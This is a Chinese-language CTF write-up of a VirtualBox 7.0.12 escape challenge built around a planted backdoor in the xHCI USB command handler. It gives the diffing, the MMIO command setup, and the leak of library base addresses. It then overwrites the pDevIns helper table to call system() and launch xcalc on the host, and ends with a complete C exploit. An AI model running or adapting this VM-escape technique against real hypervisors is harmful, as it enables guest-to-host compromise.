





# 题目信息

VirtualBox版本：[VirtualBox 7.0.12](https://download.virtualbox.org/virtualbox/7.0.12/VirtualBox-7.0.12a.tar.bz2)

客户机：ubuntu-22.04.3-live-server-amd64

# 题目分析

查看客户机配置，发现USB没有使用默认的2.0而是使用3.0，非常可疑。



下载源码，编译一个带符号的VBoxDD.so：

```bash
cd Desktop
mkdir VirtualBox-7.0.12-org
tar -C ./VirtualBox-7.0.12-org -xvf VirtualBox-7.0.12a.tar.bz2
cd ~/Desktop/VirtualBox-7.0.12-org/VirtualBox-7.0.12

./configure --disable-hardening
source ./env.sh 
kmk BUILD_TYPE=debug
cp ~/Desktop/VirtualBox-7.0.12/out/linux.amd64/debug/bin/VBoxDD.so /mnt/hgfs/VMShare/VBoxDD_patched.so
cp ./bin/VBoxDD.so /mnt/hgfs/VMShare/
```

使用Bindiff和题目所给文件进行比对，发现USB`xhciR3ExecuteCommand`处理函数中多了一个分支：







为了方便，且客户机已经安装了sshd，我们将网络模式改为`NAT Network`，而后分配一个ip地址，设置22端口转发，在客户机通过ssh连接客户机：




```bash
# Guest
sudo ip addr add 10.0.2.15/24 dev enp0s3

# Host
ssh -p 4444 127.0.0.1
```

> [!tips]
>
> 调试过程中有时候会遇到宿主机端口转发失效的情况，需要重置一下，把客户机网络切到NAT再切回NAT Networking即可。

# 解题过程

## USB指令mmio调用方法

查看客户机pci信息：

```bash
$ lspci -v
00:0c.0 USB controller: Intel Corporation 7 Series/C210 Series Chipset Family USB xHCI Host Controller (prog-if 30 [XHCI])
	Flags: bus master, fast devsel, latency 64, IRQ 20
	Memory at f0810000 (32-bit, non-prefetchable) [size=64K]
	Kernel driver in use: xhci_hcd
	Kernel modules: xhci_pci
$ cat /proc/iomem | grep xhci
    f0810000-f081ffff : xhci-hcd
```

根据源码我们可以找到XHCI设备的构造函数`xhciRZConstruct`，从而得知mmio的读写函数`xhciMmioRead/xhciMmioWrite`：

```c {hide=true}
// VirtualBox-7.0.12\src\VBox\Devices\USB\DevXHCI.cpp:8200
/**
 * @callback_method_impl{PDMDEVREGR0,pfnConstruct}
 */
static DECLCALLBACK(int) xhciRZConstruct(PPDMDEVINS pDevIns)
{
    PDMDEV_CHECK_VERSIONS_RETURN(pDevIns);
    PXHCI pThis = PDMDEVINS_2_DATA(pDevIns, PXHCI);

    int rc = PDMDevHlpMmioSetUpContext(pDevIns, pThis->hMmio, xhciMmioWrite, xhciMmioRead, NULL /*pvUser*/);
    AssertRCReturn(rc, rc);

    return VINF_SUCCESS;
}
```

其中，当`XHCI_CAPS_REG_SIZE(0x80) <= offReg < XHCI_RTREG_OFFSET(0x2000)`时，`iReg = (offReg - pThis->cap_length) >> 2`，`xhciMmioWrite`调用`g_aOpRegs[iReg].pfnWrite`函数处理传入的值，可逆推`offReg = iReg << 2 + 0x80`：

```c {hide=true}
// VirtualBox-7.0.12\src\VBox\Devices\USB\DevXHCI.cpp:7166
/**
 * @callback_method_impl{FNIOMMMIONEWWRITE, Write to a MMIO register.}
 *
 * @note We only accept 32-bit writes that are 32-bit aligned.
 */
static DECLCALLBACK(VBOXSTRICTRC) xhciMmioWrite(PPDMDEVINS pDevIns, void *pvUser, RTGCPHYS off, void const *pv, unsigned cb)
{
    PXHCI               pThis  = PDMDEVINS_2_DATA(pDevIns, PXHCI);
    const uint32_t      offReg = (uint32_t)off;
    ...
      
        /* Operational registers (incl. port registers). */
        Assert(offReg < XHCI_RTREG_OFFSET);
        iReg = (offReg - pThis->cap_length) >> 2;
        if (iReg < RT_ELEMENTS(g_aOpRegs))
        {
            const XHCIREGACC *pReg = &g_aOpRegs[iReg];
            if (pReg->pfnWrite)
            {
                rcStrict = pReg->pfnWrite(pDevIns, pThis, iReg, *(uint32_t *)pv);
                Log2(("xhciWrite: OpReg %RGp (%s) size=%d <- val=%x (rc=%d)\n", off, pReg->pszName, cb, *(uint32_t *)pv, VBOXSTRICTRC_VAL(rcStrict)));
            }
        }
        ...
          
// VirtualBox-7.0.12\src\VBox\Devices\USB\DevXHCI.cpp:7853
/**
 * @interface_method_impl{PDMDEVREG,pfnConstruct,XHCI
 *                       constructor}
 */
static DECLCALLBACK(int) xhciR3Construct(PPDMDEVINS pDevIns, int iInstance, PCFGMNODE pCfg)
{
    PDMDEV_CHECK_VERSIONS_RETURN(pDevIns);
    PXHCI           pThis   = PDMDEVINS_2_DATA(pDevIns, PXHCI);
    ...
    /* Initialize the capability registers */
    pThis->cap_length   = XHCI_CAPS_REG_SIZE;

// VirtualBox-7.0.12\src\VBox\Devices\USB\DevXHCI.cpp:407
/** Size of the capability part of the MMIO region.  */
#define XHCI_CAPS_REG_SIZE          0x80

// VirtualBox-7.0.12\src\VBox\Devices\USB\DevXHCI.cpp:6902
/**
 * Operational registers descriptor table.
 */
static const XHCIREGACC g_aOpRegs[] =
{
    {"USBCMD" ,             HcUsbcmd_r,             HcUsbcmd_w          },
    {"USBSTS",              HcUsbsts_r,             HcUsbsts_w          },
    {"PAGESIZE",            HcPagesize_r,           NULL                },
    {"Unused",              NULL,                   NULL                },
    {"Unused",              NULL,                   NULL                },
    {"DNCTRL",              HcDevNotifyCtrl_r,      HcDevNotifyCtrl_w   },
    {"CRCRL",               HcCmdRingCtlLo_r,       HcCmdRingCtlLo_w    },
    {"CRCRH",               HcCmdRingCtlHi_r,       HcCmdRingCtlHi_w    },
    {"Unused",              NULL,                   NULL                },
    {"Unused",              NULL,                   NULL                },
    {"Unused",              NULL,                   NULL                },
    {"Unused",              NULL,                   NULL                },
    {"DCBAAPL",             HcDevCtxBAAPLo_r,       HcDevCtxBAAPLo_w    },
    {"DCBAAPH",             HcDevCtxBAAPHi_r,       HcDevCtxBAAPHi_w    },
    {"CONFIG",              HcConfig_r,             HcConfig_w          }
};
```

需要用到的函数如下：

* `HcCmdRingCtlLo_w`
  * `pThis->crcr = (pThis->crcr & ~XHCI_CRCR_UPD_MASK) | (val & XHCI_CRCR_UPD_MASK)`
  * `pThis->cmdr_dqp = pThis->crcr & XHCI_CRCR_ADDR_MASK = &cmd`
  * `pThis->cmdr_ccs = pThis->crcr & XHCI_CRCR_RCS = cmd.gen.cycle`
* `HcCmdRingCtlHi_w`: （这里只用得到低32位，高32位可以不写）
  * `pThis->crcr   = ((uint64_t)val << 32) | (uint32_t)pThis->crcr`
  * `pThis->cmdr_dqp = pThis->crcr & XHCI_CRCR_ADDR_MASK`
* `HcUsbcmd_w`:
  * `pThis->cmd = val`

`xhciMmioWrite`同理，`HcUsbcmd_r`读`pThis->cmd`,`HcCmdRingCtlLo_r/HcCmdRingCtlHi_r`读`pThis->crcr`。

最终得到调用代码如下：

```python {hide=true}
/** Address Device Command TRB. */
typedef struct sXHCI_TRB_ADR {
    uint64_t    ctx_ptr;        /**< Input Context pointer. */
    uint32_t    resvd0;
    uint32_t    cycle   :  1;   /**< Cycle bit. */
    uint32_t    resvd1  :  8;
    uint32_t    bsr     :  1;   /**< Block Set Address Request. */
    uint32_t    type    :  6;   /**< TRB Type. */
    uint32_t    resvd2  :  8;
    uint32_t    slot_id :  8;   /**< Slot ID. */
} XHCI_TRB_ADR;

typedef struct sXHCI_TRB_G {
    uint32_t    resvd0;
    uint32_t    resvd1;
    uint32_t    resvd2  : 24;
    uint32_t    cc      :  8;   /**< Completion Code. */
    uint32_t    cycle   :  1;   /**< Cycle bit. */
    uint32_t    resvd3  :  9;
    uint32_t    type    :  6;   /**< TRB Type. */
    uint32_t    resvd4  : 16;
} XHCI_TRB_G;

typedef union sXHCI_COMMAND_TRB {
    XHCI_TRB_ADR    adr;
    XHCI_TRB_G      gen;
} XHCI_COMMAND_TRB;

/** @def RT_BIT
 * Convert a bit number into an integer bitmask (unsigned).
 * @param   bit     The bit number.
 */
#define RT_BIT(bit)                             ( 1U << (bit) )

/** @name Command Ring Control Register (CRCR) bits
 * @{ */
#define XHCI_CRCR_RCS           RT_BIT(0)   /**< RW   - Ring Cycle State */
/** @} */

/** @name Command Register (USBCMD) bits
 * @{ */
#define XHCI_CMD_RS             RT_BIT(0)   /**< RW - Run/Stop */
/** @} */

/** Size of the capability part of the MMIO region.  */
#define XHCI_CAPS_REG_SIZE          0x80

/** Offset of the doorbell registers in MMIO region.  */
#define XHCI_DOORBELL_OFFSET        0x3000

volatile uint8_t *data_mem = NULL;
volatile uint8_t *xhci_mmio_mem = NULL;
#define XHCI_MMIO_ADDR 0xcafe000

#define PhysWrite           1
#define PhysRead            0

#define offOpRegs(iReg)     ((iReg << 2) + XHCI_CAPS_REG_SIZE)
#define USBCMD              offOpRegs(0)
#define CRCRL               offOpRegs(6)
#define CRCRH               offOpRegs(7)

typedef struct content {
    uint64_t addr;
    uint32_t off;
    uint32_t len: 31;
    uint32_t flag: 1;
} content_t;

void abwrite(uint8_t *buf, uint32_t off, uint32_t len) {
    XHCI_COMMAND_TRB *cmd = (XHCI_COMMAND_TRB *)data_mem;
    content_t *content = (content_t *)(data_mem + 0x100);

    uint64_t cmd_pa = 0;
    uint64_t content_pa = 0;
    uint32_t res = 0;

    memset(content, 0, sizeof(content_t));
    content->addr = gva_to_gpa(buf);
    content->off = off;
    content->len = len;
    content->flag = PhysRead;
    content_pa = gva_to_gpa(content);

    memset(cmd, 0, sizeof(XHCI_COMMAND_TRB));
    cmd->gen.type = 51;
    cmd->gen.cycle = XHCI_CRCR_RCS;
    cmd->adr.ctx_ptr = content_pa;
    cmd_pa = gva_to_gpa(cmd);
    __sync_synchronize();

    // stop
    mmio_write32((xhci_mmio_mem + USBCMD), 0);
    // set pThis->crcr
    mmio_write32((xhci_mmio_mem + CRCRL), cmd_pa | XHCI_CRCR_RCS);
    // start
    mmio_write32((xhci_mmio_mem + USBCMD), XHCI_CMD_RS);
    // notify
    mmio_write32((xhci_mmio_mem + XHCI_DOORBELL_OFFSET), 0);
    __sync_synchronize();
}

void abread(uint64_t addr, uint32_t off, uint32_t len) {
    XHCI_COMMAND_TRB *cmd = (XHCI_COMMAND_TRB *)data_mem;
    content_t *content = (content_t *)(data_mem + 0x100);

    uint64_t cmd_pa = 0;
    uint64_t content_pa = 0;
    uint32_t res = 0;

    memset(content, 0, sizeof(content_t));
    content->addr = gva_to_gpa(addr);
    content->off = off;
    content->len = len;
    content->flag = PhysWrite;
    content_pa = gva_to_gpa(content);

    memset(cmd, 0, sizeof(XHCI_COMMAND_TRB));
    cmd->gen.type = 51;
    cmd->gen.cycle = XHCI_CRCR_RCS;
    cmd->adr.ctx_ptr = content_pa;
    cmd_pa = gva_to_gpa(cmd);
    __sync_synchronize();

    // stop
    mmio_write32((xhci_mmio_mem + USBCMD), 0);
    // set pThis->crcr
    mmio_write32((xhci_mmio_mem + CRCRL), cmd_pa | XHCI_CRCR_RCS);
    // start
    mmio_write32((xhci_mmio_mem + USBCMD), XHCI_CMD_RS);
    // notify
    mmio_write32((xhci_mmio_mem + XHCI_DOORBELL_OFFSET), 0);
    __sync_synchronize();
}
```

### 可能遇到的问题

#### 写CRCRL偏移无法修改对应寄存器值

一开始我直接写`CRCRL`发现并不能修改`pThis->cmdr_dqp`等值，后来发现需要先往`USBCMD`写0，暂停服务之后才能修改其他寄存器的值。

#### 写USBCMD无法调用xhciR3ExecuteCommand

往`USBCMD`写1之后无法调用`xhciR3ExecuteCommand`，后来发现需要往`XHCI_DOORBELL_OFFSET(0x3000)`写0才能触发notify执行命令。


## leak

逆向可知，程序读入的`off`和`len`均为int类型，`len`的符号位作为控制读写的标志位，而`off`可以为负数，只要满足`(len & 0x7FFFFFFF) + off <= 0x3FF`的条件即可，故这里可以对`addr < pThis + 0xFB0 + 0x400`范围内的地址进行任意读写。

> 这里`pThis`结构体定义是从我自己编译的版本迁移过来的，所以看反汇编代码显示的成员偏移不准，以汇编为准。

```c
    case 0x33:
      PDMDevHlpPCIPhysReadMeta_2DB4BE(pDevIns, pCmd->adr.ctx_ptr, &cmd, 0x10uLL);
      if ( (len & 0x7FFFFFFF) + off <= 0x3FF )
      {
        if ( len < 0 )
          PDMDevHlpPCIPhysWriteMeta_2DB558(pDevIns, cmd.field_0, &pThis->abExtCap[off + 0x400], len & 0x7FFFFFFF);
        else
          PDMDevHlpPCIPhysReadMeta_2DB4BE(pDevIns, cmd.field_0, &pThis->abExtCap[off + 0x400], len & 0x7FFFFFFF);
      }
```

设`rw_base = pThis + 0xFB0`，通过调试可知，`pThis = rw_base - 0xfb0`，`pDevIns = rw_base - 0x13f0`，通过`pDevIns`结构体内部的指针可以泄露得到`pDevIns`的地址和VBoxDD.so的加载基址。VBoxDD.so的加载地址在可读写范围内，进而我们可以通过VBoxDD.so的got表泄露得到libc.so.6的加载基址。

```python
    /* leak */
    memset(buf, 0, 0x100);
    abread(buf, -0x13f0, 0x100);
    hex_dump64(buf, 0x100);
    uint64_t vboxdd_base = *(uint64_t *)(buf + 0x30) - 0x7cd280;
    uint64_t pThis = *(uint64_t *)(buf + 0x18);
    uint64_t pDevIns = pThis - 0x440;
    uint64_t rw_base = pThis + 0xfb0;
    printf("[+] vboxdd_base: %#lx\n", vboxdd_base);
    printf("[+] rw_base: %#lx\n", rw_base);

    uint64_t vboxdd_got = vboxdd_base + 0x7D9000;
    memset(buf, 0, 0x100);
    printf("[abread] off %#lx len %#lx\n", vboxdd_got-rw_base, 8);
    abread(buf, vboxdd_got-rw_base, 8);
    hex_dump64(buf, 0x8);
    uint64_t libc_base = *(uint64_t *)buf - 0x79b00;
    printf("[+] libc_base: %#lx\n", libc_base);
```


## exploit

接下来就是考虑写哪里的问题了，前面我们注意到`PDMDevHlpPCIPhysWriteMeta`调用`pDevIns->pHlpR3->pfnPCIPhysWrite`，也就是会调用`pDevIns+0x10`处指针指向的跳表函数，且函数调用的第一个参数都是`pDevIns`。`pDevIns`结构体的前0x10字节为一些`u32Version`、`iInstance`之类的一些不重要的值，因此把“/usr/bin/xcalc”写进去也不会报错。

所以我们将`system`指针写到`rw_base`处，将“/usr/bin/xcalc”写到`pDevIns`开头0x10字节，紧接着覆盖`pDevIns+0x10`处的指针为`rw_base-0x768`（`pfnPCIPhysWrite`在跳表中的偏移）。当我们调用`PDMDevHlpPCIPhysReadMeta`写完数据后，紧接着后面`xhciR3WriteEvent - PDMDevHlpPCIPhysWriteMeta`就会调用`pDevIns->pHlpR3->pfnPCIPhysWrite`触发`system`执行。

但调试过程中发现程序提前崩溃在了0x2db8a3的地方，这个地方在`xhciR3WriteEvent - PDMDevHlpCritSectEnter`，调用的是`pDevIns->pHlpR3->pfnCritSectEnterDebug`，所以我们将偏移改为`0x898`，成功弹出计算器。

```python
    /* exploit */
    uint64_t system_addr = libc_base + 0x4ebf0;
    memset(buf, 0, 0x100);
    *(uint64_t *)buf = system_addr;
    abwrite(buf, 0, 8);

    char *cmd = "/usr/bin/xcalc";
    memset(buf, 0, 0x100);
    memcpy(buf, cmd, strlen(cmd));
    //*(uint64_t *)(buf + 0x10) = rw_base-0x768; // fake pDevIns->CTX_SUFF(pHlp)->pfnPCIPhysWrite
    *(uint64_t *)(buf + 0x10) = rw_base-0x898; // fake pDevIns->CTX_SUFF(pHlp)->pfnCritSectEnter
    abwrite(buf, pDevIns-rw_base, 0x18);
```


# Exp

vbox.exp.h

```c
/** Address Device Command TRB. */
typedef struct sXHCI_TRB_ADR {
    uint64_t    ctx_ptr;        /**< Input Context pointer. */
    uint32_t    resvd0;
    uint32_t    cycle   :  1;   /**< Cycle bit. */
    uint32_t    resvd1  :  8;
    uint32_t    bsr     :  1;   /**< Block Set Address Request. */
    uint32_t    type    :  6;   /**< TRB Type. */
    uint32_t    resvd2  :  8;
    uint32_t    slot_id :  8;   /**< Slot ID. */
} XHCI_TRB_ADR;

typedef struct sXHCI_TRB_G {
    uint32_t    resvd0;
    uint32_t    resvd1;
    uint32_t    resvd2  : 24;
    uint32_t    cc      :  8;   /**< Completion Code. */
    uint32_t    cycle   :  1;   /**< Cycle bit. */
    uint32_t    resvd3  :  9;
    uint32_t    type    :  6;   /**< TRB Type. */
    uint32_t    resvd4  : 16;
} XHCI_TRB_G;

typedef union sXHCI_COMMAND_TRB {
    XHCI_TRB_ADR    adr;
    XHCI_TRB_G      gen;
} XHCI_COMMAND_TRB;

/** @def RT_BIT
 * Convert a bit number into an integer bitmask (unsigned).
 * @param   bit     The bit number.
 */
#define RT_BIT(bit)                             ( 1U << (bit) )

/** @name Command Ring Control Register (CRCR) bits
 * @{ */
#define XHCI_CRCR_RCS           RT_BIT(0)   /**< RW   - Ring Cycle State */
/** @} */

/** @name Command Register (USBCMD) bits
 * @{ */
#define XHCI_CMD_RS             RT_BIT(0)   /**< RW - Run/Stop */
/** @} */

/** Size of the capability part of the MMIO region.  */
#define XHCI_CAPS_REG_SIZE          0x80

/** Offset of the doorbell registers in MMIO region.  */
#define XHCI_DOORBELL_OFFSET        0x3000
```

vbox.exp.c

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <errno.h>
#include <signal.h>
#include <fcntl.h>
#include <ctype.h>
#include <termios.h>
#include <assert.h>

#include <sys/types.h>
#include <sys/mman.h>
#include <sys/io.h>

#include "vbox.exp.h"

volatile uint8_t *data_mem = NULL;
volatile uint8_t *xhci_mmio_mem = NULL;
#define XHCI_MMIO_ADDR 0xcafe000

#define PhysWrite           1
#define PhysRead            0

#define offOpRegs(iReg)     ((iReg << 2) + XHCI_CAPS_REG_SIZE)
#define USBCMD              offOpRegs(0)
#define CRCRL               offOpRegs(6)
#define CRCRH               offOpRegs(7)

typedef struct content {
    uint64_t addr;
    uint32_t off;
    uint32_t len: 31;
    uint32_t flag: 1;
} content_t;

#define PAGE_SHIFT      12
#define PAGE_SIZE       (1 << PAGE_SHIFT)
#define PFN_PRESENT     (1ull << 63)
#define PFN_PFN         ((1ull << 55) - 1)

uint32_t page_offset(uint32_t addr) {
    return addr & ((1 << PAGE_SHIFT) - 1);
}

uint64_t gva_to_gfn(void *addr) {
    int fd = open("/proc/self/pagemap", O_RDONLY);
    if (fd < 0) {
        perror("open");
        exit(1);
    }
    uint64_t pme, gfn;
    size_t offset;
    offset = ((uintptr_t)addr >> 9) & ~7;
    lseek(fd, offset, SEEK_SET);
    read(fd, &pme, 8);
    if (!(pme & PFN_PRESENT))
        return -1;
    gfn = pme & PFN_PFN;
    close(fd);
    return gfn;
}

uint64_t gva_to_gpa(void *addr) {
    uint64_t gfn = gva_to_gfn(addr);
    assert(gfn != -1);
    return (gfn << PAGE_SHIFT) | page_offset((uint64_t)addr);
}

#define mmio_write64(addr, val) (*(volatile uint64_t *)addr=val)
#define mmio_write32(addr, val) (*(volatile uint32_t *)addr=val)
#define mmio_write16(addr, val) (*(volatile uint16_t *)addr=val)
#define mmio_write8(addr, val)  (*(volatile uint8_t *)addr=val)
#define mmio_read64(addr)       (*(volatile uint64_t *)addr)
#define mmio_read32(addr)       (*(volatile uint32_t *)addr)
#define mmio_read16(addr)       (*(volatile uint16_t *)addr)
#define mmio_read8(addr)        (*(volatile uint8_t *)addr)

void *mmio_init(void *fixed, size_t size, const char *file) {
    void *mem = NULL;

    int mmio_fd = open(file, O_RDWR | O_SYNC);
    if (mmio_fd == -1) {
        perror("[-] failed to open mmio.");
        exit(EXIT_FAILURE);
    }

    mem = mmap(fixed, size, PROT_READ|PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mem == MAP_FAILED) {
        perror("[-] failed to mmap mmio.");
        exit(EXIT_FAILURE);
    }
    if (mlock(mem, size) == -1) {
        perror("[-] failed to mlock mmio_mem.");
        exit(EXIT_FAILURE);
    }

    close(mmio_fd);
    return mem;
}

void hex_dump64(void* buf, size_t len) {
    uint64_t *p = (uint64_t *)buf;
    uint8_t *end = (uint8_t *)buf + len;

    puts("=====================================");
    if (len >= 0x10) {
        for (; (uint8_t *)(p+2) <= end; p+=2) {
            printf("0x%016lx 0x%016lx\n", p[0], p[1]);
        }
    }
    if (len % 0x10 >= 8) {
        printf("0x%016lx ", p[0]);
        if (len % 0x10 == 8) {
            putchar('\n');
            return;
        }
        p += 1;
    }
    if (len % 8 > 0) {
        uint64_t tmp = 0;
        for (size_t i = len % 8; i > 0; i--) {
            tmp |= p[i];
            tmp <<= 8;
        }
        printf("0x%016lx\n", tmp);
    }
    puts("=====================================");
}

void abwrite(uint8_t *buf, uint32_t off, uint32_t len) {
    XHCI_COMMAND_TRB *cmd = (XHCI_COMMAND_TRB *)data_mem;
    content_t *content = (content_t *)(data_mem + 0x100);

    uint64_t cmd_pa = 0;
    uint64_t content_pa = 0;
    uint32_t res = 0;

    memset(content, 0, sizeof(content_t));
    content->addr = gva_to_gpa(buf);
    content->off = off;
    content->len = len;
    content->flag = PhysRead;
    content_pa = gva_to_gpa(content);

    memset(cmd, 0, sizeof(XHCI_COMMAND_TRB));
    cmd->gen.type = 51;
    cmd->gen.cycle = XHCI_CRCR_RCS;
    cmd->adr.ctx_ptr = content_pa;
    cmd_pa = gva_to_gpa(cmd);
    __sync_synchronize();

    // stop
    mmio_write32((xhci_mmio_mem + USBCMD), 0);
    // set pThis->crcr
    mmio_write32((xhci_mmio_mem + CRCRL), cmd_pa | XHCI_CRCR_RCS);
    // start
    mmio_write32((xhci_mmio_mem + USBCMD), XHCI_CMD_RS);
    // notify
    mmio_write32((xhci_mmio_mem + XHCI_DOORBELL_OFFSET), 0);
    __sync_synchronize();
}

void abread(uint64_t addr, uint32_t off, uint32_t len) {
    XHCI_COMMAND_TRB *cmd = (XHCI_COMMAND_TRB *)data_mem;
    content_t *content = (content_t *)(data_mem + 0x100);

    uint64_t cmd_pa = 0;
    uint64_t content_pa = 0;
    uint32_t res = 0;

    memset(content, 0, sizeof(content_t));
    content->addr = gva_to_gpa(addr);
    content->off = off;
    content->len = len;
    content->flag = PhysWrite;
    content_pa = gva_to_gpa(content);

    memset(cmd, 0, sizeof(XHCI_COMMAND_TRB));
    cmd->gen.type = 51;
    cmd->gen.cycle = XHCI_CRCR_RCS;
    cmd->adr.ctx_ptr = content_pa;
    cmd_pa = gva_to_gpa(cmd);
    __sync_synchronize();

    // stop
    mmio_write32((xhci_mmio_mem + USBCMD), 0);
    // set pThis->crcr
    mmio_write32((xhci_mmio_mem + CRCRL), cmd_pa | XHCI_CRCR_RCS);
    // start
    mmio_write32((xhci_mmio_mem + USBCMD), XHCI_CMD_RS);
    // notify
    mmio_write32((xhci_mmio_mem + XHCI_DOORBELL_OFFSET), 0);
    __sync_synchronize();
}

int main() {
    xhci_mmio_mem = mmio_init((void *)XHCI_MMIO_ADDR, 0x10000, "/sys/devices/pci0000:00/0000:00:0c.0/resource0");
    printf("[*] xhci_mmio_mem: %p\n", xhci_mmio_mem);
    data_mem = mmap(0, 0x1000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANON|MAP_POPULATE, -1, 0);
    printf("[*] data_mem: %p\n", data_mem);

    uint8_t *buf = data_mem + 0x200;
    
    /* leak */
    memset(buf, 0, 0x100);
    abread(buf, -0x13f0, 0x100);
    hex_dump64(buf, 0x100);
    uint64_t vboxdd_base = *(uint64_t *)(buf + 0x30) - 0x7cd280;
    uint64_t pThis = *(uint64_t *)(buf + 0x18);
    uint64_t pDevIns = pThis - 0x440;
    uint64_t rw_base = pThis + 0xfb0;
    printf("[+] vboxdd_base: %#lx\n", vboxdd_base);
    printf("[+] rw_base: %#lx\n", rw_base);

    uint64_t vboxdd_got = vboxdd_base + 0x7D9000;
    memset(buf, 0, 0x100);
    printf("[abread] off %#lx len %#lx\n", vboxdd_got-rw_base, 8);
    abread(buf, vboxdd_got-rw_base, 8);
    hex_dump64(buf, 0x8);
    uint64_t libc_base = *(uint64_t *)buf - 0x79b00;
    printf("[+] libc_base: %#lx\n", libc_base);

    /* exploit */
    uint64_t system_addr = libc_base + 0x4ebf0;
    memset(buf, 0, 0x100);
    *(uint64_t *)buf = system_addr;
    abwrite(buf, 0, 8);

    char *cmd = "/usr/bin/xcalc";
    memset(buf, 0, 0x100);
    memcpy(buf, cmd, strlen(cmd));
    //*(uint64_t *)(buf + 0x10) = rw_base-0x768; // fake pDevIns->CTX_SUFF(pHlp)->pfnPCIPhysWrite
    *(uint64_t *)(buf + 0x10) = rw_base-0x898; // fake pDevIns->CTX_SUFF(pHlp)->pfnCritSectEnter
    abwrite(buf, pDevIns-rw_base, 0x18);

    munmap(data_mem, 0x1000);
    munmap(xhci_mmio_mem, 0x10000);
    return 0;
}
// gcc -static -o exp ./vbox.exp.c
```

